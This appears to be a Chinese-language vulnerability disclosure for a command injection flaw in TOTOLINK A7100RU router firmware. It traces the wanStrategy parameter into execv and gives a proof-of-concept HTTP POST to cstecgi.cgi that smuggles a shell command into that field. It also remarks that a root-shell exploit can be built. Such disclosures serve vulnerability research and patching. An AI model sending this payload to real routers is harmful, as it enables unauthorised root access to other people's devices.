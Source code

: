 # TOTOlink A7100RU(V7.4cu.2313_B20191024)路由器存在命令注入漏洞

## 写在前面

厂商信息：http://totolink.net/

固件下载地址：http://totolink.net/home/menu/detail/menu_listtpl/download/id/185/ids/36.html

## 1.影响版本

![img](img/wps1.jpg) 

 

图1为固件版本信息

## 2.漏洞细节

![image-20220720225650083](img/image-20220720225650083.png)

程序通过获取wanStrategy参数下的内容传递给v31，之后将v31带入到Uci_Set_Str函数中

![image-20220720225709068](img/image-20220720225709068.png)

通过snprintf函数，将a4匹配到的内容格式化进v11，之后将v11带入cstesystem函数中

![image-20220720225729739](img/image-20220720225729739.png)

函数直接将用户输入内容带入到execv函数中，存在命令注入漏洞

## POC

```jsx
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 79
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urencoded; charset=UTF-8
Origin: <http://192.168.0.1>
Referer: <http://192.168.0.1/adm/status.asp?timestamp=1647872753309>
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1647872744:2
Connection: close

{"topicurl":"setting/setWanIeCfg",
"wanStrategy":"1$(ls>/tmp/123;)"}
```

复现结果如下

![img](img/wps2.jpg) 

 

图2 POC攻击效果

最后，您可以编写exp，这可以实现获得根shell的非常稳定的效果

![img](img/wps3.jpg) 

 